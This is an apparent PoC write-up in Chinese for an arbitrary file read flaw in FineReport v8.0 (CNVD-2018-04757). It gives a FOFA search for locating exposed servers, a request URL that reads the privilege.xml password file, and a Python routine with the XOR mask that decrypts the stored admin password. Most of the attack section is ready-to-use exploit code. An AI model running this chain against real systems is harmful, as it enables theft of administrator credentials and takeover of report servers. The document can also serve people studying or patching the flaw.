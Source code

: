 # 帆软报表 v8.0 任意文件读取漏洞 CNVD-2018-04757

FineReport报表软件是一款纯Java编写的，集数据展示(报表)和数据录入(表单)功能于一身的企业级web报表工具。FineReport 8.0版本存在任意文件读取漏洞，攻击者可利用漏洞读取网站任意文件。

FOFA:

```
app="帆软-FineReport"
```

影响版本：

FineReport < v8.0

读密码文件 privilege.xml PoC:


```bash
hxxp://target//WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
//路径分为两种
/WebReport/ReportServer
ReportServer
```

解密：

```
# 使用python写出的解密代码为
cipher = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```

ref:

* https://mp.weixin.qq.com/s/ae8A8PGJCtr6uS11dRpzcw
* https://www.cnvd.org.cn/flaw/show/CNVD-2018-04757
